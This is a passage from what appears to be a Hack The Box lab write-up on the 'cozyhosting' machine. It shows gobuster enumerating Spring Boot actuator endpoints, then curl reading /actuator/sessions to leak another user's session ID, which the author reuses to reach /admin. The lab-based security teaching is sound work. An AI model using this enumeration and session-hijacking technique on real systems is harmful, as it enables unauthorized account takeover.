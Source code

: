 ### gobuster

Additional research on Spring Boot shows it might have additional endpoints to assist us in gaining access; there's also a handy wordlist just for Spring Boot as part of the `seclists` package. Let's run `gobuster` again:

```sh
┌──(pl4stic㉿shattersec)-[~/htb/cozyhosting]
└─$ gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/actuator             (Status: 200) [Size: 634]
/actuator/env/path    (Status: 200) [Size: 487]
/actuator/env/home    (Status: 200) [Size: 487]
/actuator/env/lang    (Status: 200) [Size: 487]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/beans       (Status: 200) [Size: 127224]
/actuator/sessions    (Status: 200) [Size: 95]
/actuator/health      (Status: 200) [Size: 15]
/actuator/mappings    (Status: 200) [Size: 9938]
Progress: 112 / 113 (99.12%)
===============================================================
Finished
===============================================================
```

### /actuator/sessions

One of our endpoints, `/actuator/sessions` seems to be giving us the `JSESSIONID` of another logged-in user: `kanderson`. We change our cookie value and are able to gain access to the `/admin` endpoint.

```sh
┌──(pl4stic㉿shattersec)-[~/htb/cozyhosting]
└─$ curl -i http://cozyhosting.htb/actuator/sessions                                                                                                      
HTTP/1.1 200 
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 02 Feb 2025 06:07:44 GMT
Content-Type: application/vnd.spring-boot.actuator.v3+json
Transfer-Encoding: chunked
Connection: keep-alive
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY

{"D70844F51303DB8177B2A99CF37D233D":"kanderson","858CFDC5B39CFDF46E8BC0586C723745":"UNAUTHORIZED"}
```
